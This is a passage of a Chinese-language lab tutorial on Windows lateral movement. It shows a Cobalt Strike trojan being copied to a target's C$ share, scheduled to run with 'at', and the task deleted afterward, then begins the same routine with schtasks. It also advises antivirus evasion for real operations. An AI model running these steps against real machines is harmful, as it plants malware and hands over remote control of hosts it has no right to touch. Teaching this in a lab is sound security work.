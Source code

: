 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlkvVywnA65IW0NIDTicVLhwNQHbD3YudcnrX5lBI88oMNbcPggwSIfhA/640?wx_fmt=png)

3. 使用 cs 生成木马利用 copy 命令拷贝到主机上

```
copy <木马在本机位置> \\<靶机ip>\c$
```

注意在实战过程中 exe 需要作免杀处理，否则如果对面主机有杀软还没有落地就已经被查杀了

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBl7iahFiccDqI9cRhzNFh5k5lgas3cTC0ppfJVrq9NW2ib1Ds1fQnnu6iaqQ/640?wx_fmt=png)

4. 使用 at 命令创建计划任务

```
at \\<靶机ip> <启动时间> <木马在靶机的位置>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlWflCaAUhJJzG54Zk1qtRPwRETjvKoZ4eLRCVjUJ6iawBicEWWnNiczDgw/640?wx_fmt=png)

注意这里理论上 cs 就已经上线了，但是因为这里我是在本地启动 cs 生成的一个 exe，2003 这台机器处于域环境里面且不出网，所以不能够跟我物理机进行通信，所以这里就没有截图上线成功的图。

5. 删除计划任务

这里的 1 为创建计划任务时候的 ID

```
at \\192.168.52.141 1 /delete
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBljMFwxBiagfvdqe1EcsrXB2H6ib692uEy1cuMg0CL1w8ziaTvavzg8pf1A/640?wx_fmt=png)

schtasks 命令
-----------

在 2008 及以后的系统中已经将 at 命令废弃，改用 schtasks 命令代替了 at 命令，原因是因为 schtasks 命令比 at 命令使用起来更加灵活。

这里使用 schtasks 命令计划任务上线的思想跟 at 命令大同小异

1. 与主机建立 ipc 连接

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlRdr0dMIkujiaCahBbWSQUiaNA4GxD9vxer0nAXvRzFMUuoBHYvsz7VyQ/640?wx_fmt=png)

2. 使用 copy 命令将 exe 复制到靶机里

```
copy C:\Users\liukaifeng01\Desktop\artifact.exe \\192.168.52.141\c$
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlDibib21pU1WyZULPnIQM5oTEiawW8n7gO3qjdaSQhiaHgDxgIYo3HQyichg/640?wx_fmt=png)

3. 查看靶机时间

```
net time \\192.168.52.141
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlf6icxAUZPVTQrMv6Hib3T8KTibB75RaLUoxiaFIhW8zwI5r1mOPFLLTHtA/640?wx_fmt=png)
